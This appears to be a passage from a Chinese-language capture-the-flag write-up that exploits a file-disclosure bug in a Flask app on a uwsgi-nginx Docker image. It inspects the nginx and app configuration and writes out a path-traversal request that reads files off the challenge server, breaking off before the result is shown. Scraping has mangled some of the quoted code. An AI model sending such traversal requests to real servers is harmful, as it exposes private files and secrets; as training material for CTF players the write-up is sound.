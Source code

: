 我得到了内容，所以发现了文件泄露漏洞。我运行 docker 映像并进入其中:

```
docker run -d -p5000:80 uwsgi-nginx-flask-docker
docker exec -it $(docker ps -q) /bin/bash
```

以下文件似乎更有趣:

```
/etc/nginx/nginx.conf
/etc/nginx/conf.d/nginx.conf
```

结果是:

```
server {
    listen 80;
    location / {
        try_files $uri [@app](http://twitter.com/app);
    }
    location [@app](http://twitter.com/app) {
        include uwsgi_params;
        uwsgi_pass unix:///tmp/uwsgi.sock;
    }
    location /static {
        **alias /opt/py/app/static;**
    }
}
```

根文件夹:`/opt/py/app`所以我通过查找应用程序名称(我通过猜测读取了`config.py`，但是这还不够，因为标志不能被`check_perm`端点读取):

```
import osclass Config:
    """Set Flask configuration vars from .env file."""# general config
    FLAG      = "flag/flag"
    FLAG_SEND = "../flag/flag"
```

阅读[回购](https://github.com/tiangolo/uwsgi-nginx-flask-docker):

```
[uwsgi]
module = main
callable = app
```

*   `module = main`是指文件`main.py`。
*   `callable = app`是指`Flask`中的【应用】，变量`app`

所以:

```
view-source:http://66.172.33.148:5008/check_perm/read/?file=../opt/py/app/uwsgi.ini
```

结果是:
